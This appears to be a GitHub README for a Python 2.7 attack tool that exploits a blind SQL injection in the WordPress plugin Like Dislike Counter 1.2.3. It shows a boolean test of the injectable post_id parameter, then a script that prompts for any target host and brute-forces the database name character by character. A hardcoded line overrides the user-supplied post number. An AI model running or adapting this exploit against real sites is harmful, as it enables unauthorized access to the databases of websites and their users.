 # Like-Dislike-Counter-AttackTool  

### python 2.7.6  
### Module : requests  
### Target : Like Dislike Counter 1.2.3  
### Reference  
> [Noplanlife.com](http://noplanlife.com/?p=1339)  
> [Requests: HTTP for Humans](http://docs.python-requests.org/en/latest/)  
> [MKSecurity](http://www.muratkaya.com.tr/2017/02/21/very-simple-blind-sql-injection-python-2-7-x-script-template-for-peneteration-testers/)  

##### Blind SQL Injection 반응검사  
<pre><code>
>>> import requests
>>> url = "http://192.168.28.130/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"
>>> payload1 = {'post_id' : '12 and 1=1', 'up_type' : 'like'}     # Expected Result is 1
>>> payload2 = {'post_id' : '12 and 1=2', 'up_type' : 'like'}     # Expected Result is 0
>>> r1 = requests.post(url, data = payload1)
>>> r2 = requests.post(url, data = payload2)
>>> r1.content
'1'
>>> r2.content
'0'
>>> print int(r1.content)
1
>>> print int(r2.content)
0
</code></pre>



###### It's a python 
<pre><code>
   import requests
   import string

   url = input("Target Host : ")

   if(url.startswith('http://') != 1) :
      url = "http://"+url

   url = url + "/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"

   targetPostNum = input("Target Post Number : ")

   dbName = ""
   # url = "http://192.168.0.200/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"
   for x in range(1,11) :
      for y in range(32,127) :
         brute_string = targetPostNum + ' and substring(database(),'+str(x)+',1) = char('+str(y)+')'
         brute_string = '6 and substring(database(),'+str(x)+',1) = char('+str(y)+')'
         payload = {'post_id' : brute_string, 'up_type' : 'like'}
         r = requests.post(url, data = payload)
         blindRes = int(r.content)

         if blindRes :
            dbName = dbName+chr(y)
            break
   print "The DATABASE that target use is : " + dbName
</code></pre>
